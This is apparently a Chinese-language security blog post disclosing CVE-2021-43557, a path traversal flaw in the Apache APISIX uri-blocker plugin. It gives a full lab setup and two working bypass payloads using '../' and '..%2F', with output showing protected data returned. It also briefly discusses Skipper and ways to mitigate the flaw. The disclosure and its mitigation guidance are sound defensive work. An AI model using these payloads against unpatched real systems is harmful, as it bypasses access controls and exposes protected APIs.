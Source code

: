 ```yaml
---
title: "Apache APISIX request_uri 变量控制不当，存在路径穿透风险"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- Kubernetes
- Request_uri
- 安全漏洞
description: 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中`$request_uri` 变量不安全使用的问题研究。
tags: [Technology]
---
```


> 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中 `$request_uri` 变量不安全使用的问题研究。

<!--truncate-->

本文提及的 Ingress Controller 中 `$request_uri` 变量不安全使用的问题，目前该漏洞已被确认为 CVE-2021-43557。在向社区及时反馈后，目前该漏洞已第一时间被修复。同时在文章最后，我也将简要地提到我为同一问题测试的[Skipper](https://github.com/zalando/skipper) 项目。

> Apache APISIX 是一个动态、实时、高性能的 API 流量处理平台，它提供了丰富的流量管理功能，如负载均衡、动态上游、金丝雀发布、断路器、身份认证、可观测性等。

为什么是 `$request_uri`？

[`$request_uri`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri)在认证和授权插件中被多次使用。因为它是**not normalized**，所以就增加了绕过一些限制的可能性。

Apache APISIX 内置多种身份认证插件，当然，你也可以编写自定义插件。为了验证它受到了路径遍历问题的影响，我选择了 `uri-blocker` 插件进行演示。

## 开始部署

在这里，我使用了 0.7.2 版本的 Helm Chart 来将 Apache APISIX 部署至 Kubernetes 中：

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

> 如果安装时出现问题，请参考[官方指南](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md)。

接着，我部署了一条 `ApisixRoute` 资源以便创建 Ingress 路由：

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

`ApisixRoute` 可以做到以下内容：

- 为 `public-service` 和 `private-service` 创建路由；
- 开启 `proxy-rewrite` 来删除前缀；
- 为 `protected-service` 配置了 `uri-blocker` 插件。这个插件会阻止任何以 `/protected-service` 开头的请求。

## 复现步骤

在这里，我使用的是 **2.10.0** 版本的 Apache APISIX。

选择使用 minikube 来访问 Apache APISIX 路由资源：

```shell
kubectl exec -it -n ${Apache APISIX namespace} ${Apache APISIX Pod name} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'
```

此外，我也写了一个脚本来减少重复性操作：

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

> 在尝试复现问题时，可将 `apisix-dc9d99d76-vl5lh`替换为实际的 Apache APISIX Pod 名称。

接下来让我们开始验证路由和插件是否按预期正常工作：

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

从上边我们看到，`public-service` 是可用的，`protected-service` 则被插件阻止了。

现在让我们测试一下 Payload：

- 情况一

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

- 情况二

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

正如你所看到的，在上述两种情况下，我都能够绕过 Uri 的限制。

### 漏洞解析

出现上述情况的根本原因是 `uri-blocker` 插件在处理禁止访问的逻辑中使用了 `ctx.var.require_uri` 变量。可以点击[相关代码](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98)进行查看。

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### 漏洞影响

- 攻击者可以绕过访问控制限制逻辑，访问本应该禁止的 API；
- 自定义插件的开发者或许不知道 `ngx.var.request_uri` 变量是不可信任的。

在搜索 `var.request_uri` 相关用法时，我猜测上述漏洞或许对 [authz-keycloak](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) 插件也有影响。

具体细节详情可以参考[这段代码](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578)。如果 keycloak 方面没有进行相关规范化，那么出现漏洞的可能性就很大。

### 处理措施

关于此漏洞的解决方法，我个人建议如果是使用自定义插件的话，可在使用 `ngx.var.request_uri` 变量前进行路径规范化的相关处理。同时可以额外检查下 `ctx.var.upstream_uri` 和 `ctx.var.uri` 这两个变量，虽然可能已经被规范化了，但防患于未然。

## Skipper

Skipper 是我个人在进行上述安全漏洞调查时接触到的另一个 Ingress Controller。因其内容久远未更新，在 Kubernetes 中安装它并不容易。幸运的是，我在开发者文章里找到了如何安装它的相关内容。

这项 Ingress 提供了基于 [WebHook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook) 实现的外部认证可能性。

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

通过添加一些 headers 可以优化访问控制决策，但需要用 `setRequestHeader` 过滤器手动完成。

有一个模板可以通过使用 `${}` 来注入变量，但遗憾的是（对攻击者来说）`${request.path}` 有正常化的路径。在它的开发代码中可以看到，开发人员并没有轻易使用 `RequestURI` 和`originalRequest`。

我没有进行相关的路径遍历测试，或许 Skipper 也是安全可信的一个 Ingress Controller 选择。

## 总结

虽然前文中我提到了 Apache APISIX 存在路径遍历的漏洞，但该漏洞并不影响任何外部认证，只是影响了使用 `ctx.var.request_uri` 变量的插件。同时该漏洞已被 Apache APISIX 进行了及时修复，目前已没有安全漏洞问题，大家可放心使用。

关于本文中提到的全部代码都可以在[这里](https://github.com/xvnpw/k8s-CVE-2021-43557-poc)进行查阅参考。
